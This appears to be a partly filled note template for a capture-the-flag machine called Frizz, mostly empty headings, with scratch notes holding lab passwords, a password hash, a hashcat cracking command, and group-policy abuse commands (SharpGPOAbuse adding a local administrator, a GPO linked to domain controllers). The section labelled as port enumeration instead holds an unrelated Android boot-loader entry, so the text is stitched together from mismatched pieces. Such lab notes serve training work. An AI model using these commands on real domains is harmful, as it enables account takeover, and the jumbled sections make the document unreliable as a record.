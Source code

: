 ```yaml
---
os:
status:
tags:
  - GPO_apuse
aliases:
---
```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2

## Improved skills

- Skill 1
- Skill 2

## Used tools

- nmap
- gobuster




# Information Gathering

Scanned all TCP ports:

```sh
fiona frizzle 

/uploads/reports

frizzdc.frizz.htb/
FRIZZDC.FRIZZ.HTB

MrGibbonsDB MisterGibbs!Parrot!?1
7y59n5xz-uym-ei9p-7mmq-83vifmtyey2

f.frizzle 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03 /aACFhikmNopqrRTVz2489
hashcat -m 1420 -a 0 haFrizzle /opt/lists/rockyou.txt

Jenni_Luvs_Magic23

M.SchoolBus !suBcig@MehTed!R

New-GPO -Name "hello" | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled YES
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "hello" --force
gpupdate /force



HUAWEI MateBook E:  2560x1600

```

Enumerated open TCP ports:

```sh
setparams 'BlissOS-16.9.7 2024-10-11'' '/android-2024-10-11' 'BlissOS-16.9.7 2024-10-11' 'quiet'
	savedefault
	set root=$android
	if [ ! -e $2/kernel_a ]; then
		search --no-floppy --set root -f $2/kernel_a
	fi
	set kd=$2
	shift 3
	linux $kd/kernel_a stack_depot_disable=on cgroup_disable=pressure root=/dev/ram0 androidboot.slot_suffix=_a $src $@
	initrd $kd/initrd_a.img
```

Enumerated top 200 UDP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)


---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```